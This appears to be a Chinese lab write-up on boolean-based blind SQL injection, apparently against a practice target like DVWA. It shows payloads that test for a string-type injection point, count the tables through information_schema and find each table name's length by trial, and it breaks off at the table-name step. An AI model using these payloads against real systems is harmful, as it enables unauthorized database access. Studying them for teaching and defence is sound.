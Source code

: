 - 有可能出现不确定sql是否执行的情况

### 1.判断是否存在注入和注入类型

```sql
1' or 1=1 不存在
1' or '1'='1 存在
```

判断为字符型

### 2.判断数据库中表的数量

```sql
1' and (select count(table_name) from information_schema.tables where table_schema=database())=1#    不存在
1' and (select count(table_name) from information_schema.tables where table_schema=database())=2#    存在
```

有两张表

### 3.判断表名长度

第一张表:

```sql
1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=1#  不存在

1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=2#  不存在

··················

1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=9#  存在
```

第一张表名长度为`9`

第二张表:

```sql
1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 1,1)=1# 不存在

…………

1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 1,1)=5# 存在
```

第二张表名长度为`5`

### 4.判断表名
